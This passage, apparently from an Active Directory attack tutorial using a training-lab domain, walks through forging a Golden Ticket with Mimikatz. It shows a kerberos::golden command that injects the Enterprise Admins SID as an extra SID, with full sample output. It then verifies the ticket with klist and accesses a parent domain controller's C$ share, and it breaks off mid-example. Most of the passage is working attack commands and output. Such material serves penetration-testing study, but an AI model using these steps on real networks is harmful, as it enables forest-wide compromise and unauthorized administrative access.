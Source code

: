     2. Execute the following command, replacing the placeholders with the gathered information:
        
        ```powershell
        kerberos::golden /user:USERNAME /domain:CHILDOMAIN.FQDN /sid:CHILDOMAIN_SID /krbtgt:KRBTGT_HASH /sids:ENTERPRISE_ADMINS_SID /ptt
        
        ```
        
    3. Mimikatz will create a Golden Ticket with the specified parameters and inject it into the current session.
        
    
    ```powershell
    mimikatz.exe
    
    mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
    User      : hacker
    Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
    SID       : S-1-5-21-2806153819-209893948-922872689
    User Id   : 500
    Groups Id : *513 512 520 518 519
    Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
    ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
    Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
    -> Ticket : ** Pass The Ticket **
    
     * PAC generated
     * PAC signed
     * EncTicketPart generated
     * EncTicketPart encrypted
     * KrbCred generated
    
    Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session
    ```
    

3.2 Verifying the Golden Ticket

* Step-by-Step using klist:
    
    1. Open a command prompt and run `klist` to view the cached Kerberos tickets.
        
    2. Verify that the Golden Ticket for the specified user is listed, with the correct domain and ticket flags.
        

3.3 Accessing Resources in the Parent Domain

* Explanation: With the Golden Ticket injected, the attacker can now access resources in the parent domain as if they were a member of the Enterprise Admins group.
    
* Example:
    
    * Listing the contents of the parent domain's Domain Controller's C: drive:
        
        ```powershell
        Copy codels \\\\PARENTDC.PARENTDOMAIN.FQDN\\c$
        